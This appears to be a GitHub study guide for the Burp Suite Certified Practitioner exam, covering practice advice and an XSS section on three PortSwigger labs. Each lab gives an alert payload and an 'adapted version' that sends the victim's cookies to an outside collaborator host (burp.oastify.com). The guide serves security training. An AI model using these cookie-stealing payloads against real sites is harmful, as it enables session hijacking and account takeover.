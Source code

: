 **2. Try to pass 10 mystery labs WITHOUT revealing the object or other hints.**  
Set the level to Practicioner and category to Any. Yes, this WILL be hard, but if you really can pass 10 different mystery labs in a row, you ARE prepared for exam.  
  
**ATTENTION:** If you want some others tips for the exam, I recommend you to read this article:
>https://micahvandeusen.com/burp-suite-certified-practitioner-exam-review/

Detailed approach about each vulnerability will be covered in **Approach** sections.


# XSS
## Approach
You see these two on your exam? Target Scan them!  
**Attention:** For my two exam attemps I didn't get XSS through comment section because it was just disabled.  
**Search input**  
![image](https://user-images.githubusercontent.com/58632878/224571361-737909a7-99b0-4b6f-8757-e353ec3040b8.png)  
  
**Comment section**  
![image](https://user-images.githubusercontent.com/58632878/224571400-ea983a43-ca62-41b7-bac5-a2dcd095e97d.png)  
  
You've got a XSS with scan? Cool, now you need to adapt your XSS payload to send it to victim via exploit-server. It's quite complicated job to do, but payloads from labs below and their adapted versions will surely help you.  

## Labs
### 1. DOM XSS in document.write sink using source location.search inside a select element.
>Add parameter to URL product?productId=1&storeId=kek and check out it is in dropbox on the product site. Check HTML code and find out, that storeId is in ```<select>``` tag. Create the next payload:  
```
storeId=kek"></select><script>alert(1)</script>
```
**Adapted version**
```
"></select><script>document.location='http://burp.oastify.com/?c='+document.cookie</script>
```


### 2. DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded.  
```
{{constructor.constructor('alert(1)')()}}
```
**Adapted version**
```
{{constructor.constructor('document.location="http://burp.oastify.com?c="+document.cookie')()}}
```

### 3. Reflected DOM XSS
```
\"-alert()}//
```
**Adapted version**
```
\"-fetch('http://burp.oastify.com?c='+btoa(document.cookie))}//
```
